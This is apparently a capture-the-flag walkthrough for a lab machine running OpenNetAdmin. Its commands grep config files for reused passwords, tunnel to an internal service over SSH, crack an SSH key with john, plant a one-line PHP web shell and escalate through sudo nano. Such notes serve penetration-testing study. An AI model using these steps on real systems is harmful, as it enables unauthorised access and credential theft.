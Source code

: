 ### Foothold
not sure `/usr/share/wordlists/wfuzz/general/big.txt` is diff from `/usr/share/seclists/Discovery/Web-Content/big.txt` or not.
But `autorecon` didn't trigger any of them anyway.

Another important one here `/usr/share/wordlists/dirbuster/directory-list-1.0.txt`

Also, pay more attention to 'Create' or 'Login' functions when doing a happy path.

### Pivoting
##### jimmy
When there is a web server. Looking for database credentials would be a good start. Like MySQL.
Eyes on something like 'Config' or 'Local'. from '/var/www/...' perhaps.

And the database name could be googled with the webserver.
Like google opennetadmin (connect) database
https://opennetadmin.com/forum_archive/4/t-85.html

``` 
cat local/config/database_settings.inc.php | grep -i "pass" # Try it and seems password got reused
```

##### joanna aka the hard/interesting part
1. Enumerating from www-data found that a directory `/var/www/internal` belong to jimmy only or simply `find / -user jimmy 2>/dev/null`
2. (Optional) Crack the hash from `index.php` 
3. Find the port that running this service. There are a couple of ways.
```
netstat -tl

netstat -tulpn

netstat -ano | grep tcp

netstat -naep | grep LISTEN | grep -v LISTENING

cat /etc/apache2/sites-enabled/internal.conf
```
4. Without the hash
```
curl -s localhost:52846/main.php
```
5. Using the hash
```
curl -d "username=jimmy&password=Revealed" -X POST http://localhost:52846/main.php
```
or Pivoting through SSH port forwarding.
```
ssh -R 1337:127.0.0.1:52846 kali@targetIP
```
The command above creates a remote SSH tunnel, which forwards all connections from port 1337 on our host to port 52846 on the box. Make sure that the SSH server is running and permits root login(not sure normal kali user works or not). The application can now be accessed by browsing to 
http://127.0.0.1:1337

6. Use the private key
```
/usr/share/john/ssh2john.py key > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=ssh hash
# Bonus
cat /usr/share/wordlists/rockyou.txt | grep ninja >> better.txt
```

7. Bonus with the RCE on the 52846 running server
```
echo '<?php echo exec("id");?' > shell.php
curl http://localhost:52846/shell.php
```

### Priv
```
sudo -l
sudo /bin/nano /opt/priv
gtf
```
